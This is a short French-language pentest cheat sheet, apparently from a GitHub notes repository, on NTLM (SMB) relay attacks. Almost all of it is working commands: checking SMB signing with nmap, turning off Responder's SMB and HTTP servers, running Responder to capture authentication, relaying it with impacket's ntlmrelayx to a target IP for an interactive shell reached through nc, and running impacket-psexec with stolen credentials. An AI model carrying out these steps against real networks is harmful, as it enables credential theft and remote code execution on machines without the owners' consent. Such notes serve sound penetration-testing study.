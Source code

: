 # NTLM Relay

Aussi appeler `SMB Relay`

Pour cela fonctionne, il faut que `SMB Signing soit desactiver` et l'utilisateur dont les identifiants sont relayer doit etre `administrateur` au niveau de la machine.

```sh
nmap --script=smb2-security-mode IP
# regarder le message de smb2-security-mode:
	Host script results:
	| smb2-security-mode: 
	|   311: 
	|_    Message signing enabled but not required

# Cela nous montre que notre attaque peut fonctionner car la signature est acitver et n'est pas requise.
```

En suite, il faut desactiver les services SMB et HTTP de responder.

```sh
sudo nano /usr/share/responder/Responder.conf
	[Responder Core]
	SMB = Off
	HTTP = Off
```

```sh
sudo responder -I eth0
```

Combiner avec ntlmrelayx de impacket l'ajouter de `-i` a la commande impacket-ntlmrelayx pour obtenir un shell sur la machine distante et utiliser nc pour interagire avec elle.

```sh
ntlmrelayx.py -t 192.168.179.132 -smb2support -i
```

```sh
nc 127.0.0.1 NTRELAYX_PORT
```

```sh
impacket-psexec username:password@target-ip
```


